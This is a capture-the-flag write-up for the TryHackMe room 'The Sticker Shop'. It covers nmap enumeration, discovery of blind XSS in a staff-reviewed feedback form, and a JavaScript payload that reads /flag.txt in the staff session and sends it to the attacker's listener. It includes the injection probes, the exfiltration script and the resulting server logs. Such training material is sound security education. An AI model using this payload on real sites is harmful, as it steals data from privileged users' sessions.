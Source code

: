 ```yaml
---
title: "TryHackMe: The Sticker Shop"
categories: [TryHackMe]
tags: [web, xss, js]
render_with_liquid: false
img_path: /images/tryhackme_the_sticker_shop/
image:
  path: room_image.webp
---
```


**The Sticker Shop** was a very simple room about exploiting a **Cross-Site Scripting (XSS)** vulnerability to steal the contents of a page and retrieve the flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/thestickershop){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.222.154
Nmap scan report for 10.10.222.154
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two ports open:

- **22** (`SSH`)  
- **8080** (`HTTP`)

### Web 8080

Visiting `http://10.10.222.154:8080/`, we see a simple page displaying some stickers and their prices.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

While there is no functionality to purchase the stickers, it appears we can leave feedback at `http://10.10.222.154:8080/submit_feedback`.

![Web 8080 Submit Feedback](web_8080_submit_feedback.webp){: width="1200" height="600"}

After submitting feedback, we receive a message stating that a staff member will review it shortly.

![Web 8080 Submit Feedback Message](web_8080_submit_feedback_message.webp){: width="1200" height="600"}

The room also specifies that our goal is to read the flag located at `http://10.10.222.154:8080/flag.txt`. However, making a request to this endpoint returns a `401 Unauthorized` response.

![Web 8080 Flag](web_8080_flag.webp){: width="1200" height="600"}

## Obtaining the Flag

### Discovering the XSS

Going back to the **Feedback** page and testing the form for Cross-Site Scripting (**XSS**) with a simple payload like `<img src="http://10.11.72.22/test" />` and starting a basic HTTP server to confirm the vulnerability, we can see that we are successful as we see a request in our web server.

![Web 8080 Submit Feedback Xss](web_8080_submit_feedback_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.154 - - [01/Dec/2024 06:44:39] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:44:39] "GET /test HTTP/1.1" 404 -
```

### Stealing Page Contents

Our goal is still to access the contents of the `http://10.10.222.154:8080/flag.txt` page, and while we don't have access to it, we can consider the possibility that the staff user might.

Since we already discovered a Cross-Site Scripting (**XSS**) vulnerability potentially affecting a staff user that allows us to run `JavaScript` code in their session, we can exploit this vulnerability to obtain the contents of the `http://10.10.222.154:8080/flag.txt` page.

To achieve this, we will first write a `JavaScript` code that makes a request to the `/flag.txt` endpoint and sends the contents back to our server upon receiving a response, as shown below:

```js
var target_url = "/flag.txt";
var my_server = "http://10.11.72.22/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + xhr.responseText)
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```

Now, all we have to do is send our payload wrapped in `script` tags through the feedback form to make it execute in the staff user's session.

![Web 8080 Submit Feedback XSS Two](web_8080_submit_feedback_xss2.webp){: width="1200" height="600"}

After submitting the feedback with the payload, as we can see, we receive the flag on our web server and complete the room.

```console
10.10.222.154 - - [01/Dec/2024 06:59:29] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:59:29] "GET /data?THM{83[REDACTED]e6} HTTP/1.1" 404 -
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
